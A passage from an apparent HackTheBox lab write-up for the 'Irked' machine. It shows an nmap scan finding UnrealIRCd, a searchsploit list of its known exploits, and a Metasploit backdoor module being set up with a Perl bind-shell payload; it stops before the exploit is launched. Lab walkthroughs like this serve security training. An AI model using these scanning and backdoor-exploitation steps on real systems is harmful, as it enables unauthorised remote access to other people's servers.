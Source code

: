 But nothing was really interesting. Since we also don't have a dedicated domain name, that's it for http, I guess.

### 3.2 Port 8067, 6697 

Port 8067, 6697 have a running service named "irc"

```
┌──(hosan㉿kali)-[~/oscp/htb-box/irked]
└─$ sudo nmap 10.10.10.117 -p8067 -sC -sV -A
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-17 08:40 EDT
Nmap scan report for 10.10.10.117
Host is up (0.074s latency).

PORT     STATE SERVICE VERSION
8067/tcp open  irc     UnrealIRCd
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.5 (94%), Linux 3.8 (94%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (93%), Sony Android TV (Android 5.0) (93%), Android 5.0 - 6.0.1 (Linux 3.4) (93%), Android 5.1 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: irked.htb

TRACEROUTE (using port 8067/tcp)
HOP RTT       ADDRESS
1   64.80 ms  10.10.16.1
2   138.23 ms 10.10.10.117

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.06 seconds
```
I'll dig deeper into this service, since this is only option.

## 4. Initial Foothold

We had the keyword unrealircd. I searched for cve:

```
┌──(hosan㉿kali)-[~]
└─$ searchsploit unrealirc
--------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                   |  Path
--------------------------------------------------------------------------------- ---------------------------------
UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit)                     | linux/remote/16922.rb
UnrealIRCd 3.2.8.1 - Local Configuration Stack Overflow                          | windows/dos/18011.txt
UnrealIRCd 3.2.8.1 - Remote Downloader/Execute                                   | linux/remote/13853.pl
UnrealIRCd 3.x - Remote Denial of Service                                        | windows/dos/27407.pl
--------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
There is a metasploit module. Even if we don't have version number of current irc session, it's worth trying it.
```
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set payload 1
payload => cmd/unix/bind_perl
```
